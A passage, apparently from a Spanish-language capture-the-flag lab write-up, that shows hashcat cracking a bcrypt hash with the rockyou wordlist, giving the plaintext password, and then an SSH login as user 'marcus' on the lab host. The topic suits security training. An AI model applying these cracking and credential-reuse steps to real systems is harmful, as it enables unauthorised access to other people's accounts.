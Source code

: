 ```bash
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

Cracking performance lower than expected?                 

* Append -w 3 to the commandline.
  This can cause your screen to lag.

* Append -S to the commandline.
  This has a drastic speed impact but can be better for specific attacks.
  Typical scenarios are a small wordlist but a large ruleset.

* Update your backend API runtime / driver the right way:
  https://hashcat.net/faq/wrongdriver

* Create more work items to make use of your parallelization power:
  https://hashcat.net/faq/morework

$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C:funkymonkey
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70Jonsd...hFYK4C
Time.Started.....: Tue Jun 20 23:05:21 2023 (1 min, 56 secs)
Time.Estimated...: Tue Jun 20 23:07:17 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       73 H/s (3.16ms) @ Accel:4 Loops:16 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 8528/14344385 (0.06%)
Rejected.........: 0/8528 (0.00%)
Restore.Point....: 8512/14344385 (0.06%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:1008-1024
Candidate.Engine.: Device Generator
Candidates.#1....: mark123 -> funkymonkey
Hardware.Mon.#1..: Util: 90%

Started: Tue Jun 20 23:04:49 2023
Stopped: Tue Jun 20 23:07:19 2023
```

Con la contraseña en texto plano, hemos accedido a través de SSH como el usuario `marcus`.

```bash
❯ ssh marcus@10.10.11.211
The authenticity of host '10.10.11.211 (10.10.11.211)' can't be established.
ED25519 key fingerprint is SHA256:RoZ8jwEnGGByxNt04+A/cdluslAwhmiWqG3ebyZko+A.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.211' (ED25519) to the list of known hosts.
marcus@10.10.11.211's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-147-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed 21 Jun 2023 04:08:15 AM UTC

  System load:                      0.0
```